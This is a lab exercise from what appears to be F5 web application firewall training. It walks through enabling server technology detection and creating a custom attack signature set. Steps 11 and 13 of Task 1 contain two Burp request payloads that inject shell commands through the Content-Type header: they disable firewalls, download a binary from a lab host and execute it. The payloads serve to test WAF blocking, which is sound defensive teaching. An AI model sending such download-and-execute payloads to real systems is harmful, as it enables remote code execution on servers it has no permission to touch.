






Exercise 3.3: Server Technologies and Custom Signature Sets
-------------------------------------------------------------

Objective
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this exercise we will examine server technologies and custom signature sets.  Server Technologies function allows you to automatically discover server-side frameworks, web servers and operating systems.  This feature helps when the backend technologies are not well known.  The feature can be enabled to auto detect.  You can also add the technologies that you know.  Creating custom signature sets allows you to define what signature groupings work best for your needs.  In this exercise we will explore both.

Task 1 - Server Technologies
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Application Security > Policy Building > Learning and Blocking Settings**

2.  Locate **Server Technologies** and expand the option.  Click **Enable Server Technology Detection**

.. image:: images/image1_3_3.png
    :width: 600 px

3.  Make sure to save and Apply Policy.

.. NOTE:: Our policy is currently in manual and we would need to manaully accept all server technologies suggestions to build the server technology signature sets.  If the policy were in automatic learning server technologies would automatically be accepted once the threshold was met.

4.  Click on the diagonal arrow to the left of the Enable Server Technology Dectection.  This will open the Server Technologies configuration which can also be found by going to **Security > Application Security > Policy > Server Technologies**

.. image:: images/image2_3_3.png
    :width: 600 px

5. Click on the drop down box and you will find a list of various server-side technologies to choose from.

6.  Choose **Apache Tomcat** from the list.  You will be prompted that Java Servlet/JSP will also be added.  Click okay

.. image:: images/image4_3_3.png
    :width: 600 px

7.  Choose **Unix/Linux** from the list and click ok.  Make sure to click Save and Apply Policy.

8.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

9.  Expand Attack Signatures and you should now see the additional server technology signature sets enabled and in blocking.

10.  Time to launch some framework attacks.

11. Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go:

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=f5DEMOs4u!

12. You should receive the Request Rejected Page as output.

13. Run a second framework attack

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: IG88
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: cd /dev/shm; wget http://10.1.10.145:443/lmydess; chmod 777 lmydess; ./lmydess;
  Content-Length: 38
  Host: TheEmpireDidNothingWrong

  username=f5student&password=f5DEMOs4u!

14. Again, you should receive a Request Rejected page as output as shown here:

15. Navigate to the Application Security Event Logs and review the alerts. Notice they are of different severity but how do we know that these were actually framework related signatures?

.. image:: images/image2.png
    :width: 600 px

16. Click on the **Attack Signature Detected** hyperlink and then click on the little blue "i" next to the signature for more information.

.. image:: images/image4.png
    :width: 600 px

Task 2 - Create Custom Signature Set
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Options > Application Security > Attack Signature > Attack Signature Sets**

2.  Click on Create

Fill out the following -
  - Name - ``my_signature_set``
  - Type - ``filter-based``
  - Default Blocking Actions -  ``leave Learn/Alarm/Block checked``
  - Assign To Policy by Default -  ``Uncheck this box``  (in production enabling this feature ensures this signature set is assigned to all newly created policies)
  - Signature Type -  ``Request``
  - Attack Type -  ``All``
  - Systems -  ``Unix/Linux, Apache, Apache Tomcat, Java Servlets/JSP`` <- Move to the left.
  - Accuracy -  ``All``
  - Risk - ``Greater Than Equal To High``
  - User-defined -  ``All``
  - Update Date -  ``All``

3.  Click on Create.  Now you have a created your own custom signature set of high risk signatures with server side technologies.

.. image:: images/image6_3_3.png
    :width: 600 px

4.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

5.  Expand Attack Signatures.  Click on Change and check your newly created signature set. Cick **Change**.

6.  Click Save and Apply policy

7.  Use BURP again with either of the two previous attacks and ensure your new custom signature set is blocking them. Examine the event logs.
